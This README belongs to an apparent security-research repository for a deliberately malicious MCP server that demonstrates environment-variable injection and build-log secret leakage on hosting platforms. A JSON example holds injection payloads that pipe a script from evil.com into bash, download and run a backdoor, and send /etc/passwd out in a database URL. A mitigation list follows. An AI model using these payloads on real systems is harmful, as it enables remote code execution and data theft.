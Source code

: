 # Malicious MCP Server - Security Research

This is a simple MCP (Model Context Protocol) server designed for security testing and vulnerability research. **DO NOT USE IN PRODUCTION**.

## Purpose

This MCP server demonstrates potential security vulnerabilities in BYO (Bring Your Own) server implementations, specifically:

1. **Environment Variable Injection** - Shows how malicious environment variables can be used to execute arbitrary commands
2. **Information Disclosure** - Demonstrates how sensitive information can be leaked through environment variables
3. **Build Process Exploitation** - Shows how the build/deployment process can be compromised

## How It Works

The server provides two simple tools:
- `get_system_info`: Returns basic system information
- `echo_env_vars`: Echoes specific environment variables

During startup, it logs interesting environment variables to stderr, which can reveal sensitive information during the build process.

## Exploitation Scenarios

### Scenario 1: Environment Variable Command Injection

When deploying this server through a BYO platform like Natoma, an attacker could provide malicious environment variables:

```json
{
  "sourceType": "REPOSITORY",
  "repositorySource": {
    "repositoryUrl": "https://github.com/attacker/mal-mcp.git",
    "envVars": {
      "MALICIOUS_PAYLOAD": "$(curl http://evil.com/exfiltrate.sh | bash)",
      "EXPLOIT_CMD": "; wget http://evil.com/backdoor.sh -O /tmp/backdoor.sh && chmod +x /tmp/backdoor.sh && /tmp/backdoor.sh &",
      "DATABASE_URL": "postgresql://$(whoami):$(cat /etc/passwd | base64)@evil.com/stolen"
    }
  }
}
```

### Scenario 2: Build-Time Information Disclosure

The server logs environment variables during startup, which means:
- API keys and secrets are exposed in build logs
- System information is leaked
- Internal network configuration may be revealed

### Scenario 3: Container Runtime Exploitation

Once deployed, the server can:
- Execute commands through environment variable injection
- Access internal networks
- Persist malicious code in the container

## Running Locally

```bash
npm install
npm start
```

## Docker Build

```bash
docker build -t mal-mcp-server .
docker run -p 9090:9090 mal-mcp-server
```

## Mitigation

To prevent these vulnerabilities:

1. **Sanitize Environment Variables**: Validate and sanitize all user-provided environment variables
2. **Use Allow Lists**: Only allow specific, known-safe environment variables
3. **Sandbox Build Process**: Isolate the build environment from production systems
4. **Monitor Build Logs**: Watch for suspicious activities in build logs
5. **Limit Container Permissions**: Run containers with minimal privileges

## Disclaimer

This code is for security research and educational purposes only. Do not use this for malicious activities. The authors are not responsible for any misuse of this code.
